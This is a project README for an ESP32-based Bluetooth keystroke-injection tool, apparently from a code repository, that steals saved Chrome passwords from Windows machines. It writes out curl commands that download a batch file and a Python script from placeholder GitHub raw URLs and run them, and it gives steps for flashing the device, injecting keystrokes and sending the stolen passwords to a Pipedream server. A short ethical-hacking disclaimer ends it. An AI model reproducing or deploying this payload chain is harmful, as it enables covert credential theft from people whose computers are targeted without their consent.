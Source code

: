 # ESP32-WROOM Chrome Password Extractor

This project uses an **ESP32-WROOM** to extract saved passwords from Google Chrome on Windows and send the data to a **Pipedream server** via Wi-Fi or Bluetooth. The ESP32 acts as a **USB Rubber Ducky** using the **BleKeyboard** library to automate keystrokes and execute scripts on the target machine.

---

## Features
- **Automated Payload Execution**: ESP32 injects keystrokes to open CMD and execute scripts.
- **Silent Python Installation**: Installs Python and required dependencies automatically.
- **Data Extraction**: Retrieves saved Chrome passwords.
- **Data Transmission**: Sends extracted data to a remote server.
- **Bluetooth HID Emulation**: Uses ESP32 as a Bluetooth keyboard.

---

## Prerequisites
- **ESP32-WROOM**
- **Arduino IDE** with ESP32 Board Package
- **BleKeyboard Library**
- **Pipedream account** (for receiving data)

---

## Setting Up the ESP32

### 1. Install the Required Libraries
Download and install the **BleKeyboard** library in the Arduino IDE:

1. Open **Arduino IDE**.
2. Go to **Sketch > Include Library > Manage Libraries**.
3. Search for **BleKeyboard** and install it.

### 2. Fix Errors in BleKeyboard Library
After installing **BleKeyboard**, you need to modify two lines of code to fix errors:

#### **Fix 1 (Line 106)**
Find this line:
```
BLEDevice::init(deviceName);
```
Replace it with:
```
BLEDevice::init(String(deviceName.c_str()));
```

#### **Fix 2 (Line 117)**
Find this line:
```
hid->manufacturer()->setValue(deviceManufacturer);
```
Replace it with:
```
hid->manufacturer()->setValue(String(deviceManufacturer.c_str()));
```

---

## Hosting `install_python.bat` and `web.py`

### **1. Upload to GitHub**
To make `install_python.bat` and `web.py` available for download, upload them to a GitHub repository:

1. Create a **GitHub repository**.
2. Upload `install_python.bat` and `web.py` to the repository.
3. Copy the **raw file URLs** (e.g., `https://raw.githubusercontent.com/YOUR_GITHUB_USERNAME/YOUR_REPO/main/install_python.bat`).

### **2. Modifying the ESP32 Code**
Update the ESP32 payload script to download and execute the batch file:

```
String batchCommand = "curl -L -o %TEMP%\\install_python.bat https://raw.githubusercontent.com/YOUR_GITHUB_USERNAME/YOUR_REPO/main/install_python.bat && start /wait %TEMP%\\install_python.bat";
```

Similarly, update the script for `web.py`:

```
String curlCommand = "curl -L -o %TEMP%\\web.py https://raw.githubusercontent.com/YOUR_GITHUB_USERNAME/YOUR_REPO/main/web.py";
```

---

## Flashing the ESP32

1. Open the **Arduino IDE**.
2. Select **ESP32-WROOM** as the board.
3. Open the script and modify the **batch file URLs** to point to your GitHub.
4. Connect the ESP32 and upload the script.

---

## Running the Payload

1. **Connect the ESP32** to the target system.
2. **Wait for Bluetooth to connect**.
3. The ESP32 will automatically inject keystrokes to download and execute the scripts.
4. The extracted passwords will be sent to your **Pipedream server**.

---

## Disclaimer
This project is intended for **ethical hacking and penetration testing** purposes only. Unauthorized access to systems and data is illegal. Ensure you have **explicit permission** before running this tool.

---

## Credits
Developed by **Dhanjith Satheesan** for cybersecurity research.


